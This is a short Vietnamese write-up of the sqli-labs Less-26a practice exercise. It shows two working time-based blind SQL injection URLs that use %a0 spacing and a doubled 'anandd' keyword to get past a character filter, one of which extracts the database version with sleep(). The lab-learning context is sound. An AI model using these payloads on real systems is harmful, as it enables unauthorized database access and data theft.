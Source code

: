 # Less 26a

Đề bài yêu cầu nhập vào một giá trị

![](../images/sqli-labs/Less-26a/01.png)

Tôi nhập thử vào một vài giá trị

![](../images/sqli-labs/Less-26a/02.png)

Thử nhập một số giá trị có thể gây ra lỗi. Nhưng ở đây thì tôi không thấy có lỗi hiển thị ra màn hình. 

![](../images/sqli-labs/Less-26a/03.png)

Như vậy ở bài này sẽ không khai thác được bằng cách cho hiển thị lỗi. Tôi thấy ở bài này cũng đã bị bỏ một số ký tự giống như ở [Less 26](Less-26.md).

Tôi tiếp tục thử thì thấy khi nhập vào 

```
http://192.168.84.233/sqli-labs/Less-26a/?id=1%27)%a0anandd%a0sleep(4)%a0anandd%a0(%271%27)=(%271
```

![](../images/sqli-labs/Less-26a/04.png)

Dựa vào đây ta có thể khai thác được DB thông qua lỗi thông qua time based

```
http://192.168.84.233/sqli-labs/Less-26a/?id=1%27)%a0anandd%a0if(substr((select%a0@@version),1,1)=%275%27,sleep(10),false)%a0anandd%a0(%271%27)=(%271
```

![](../images/sqli-labs/Less-26a/05.png)

Ta cũng có thể sử dụng các đoạn script như những bài trước để thấy được DB nhanh chóng hơn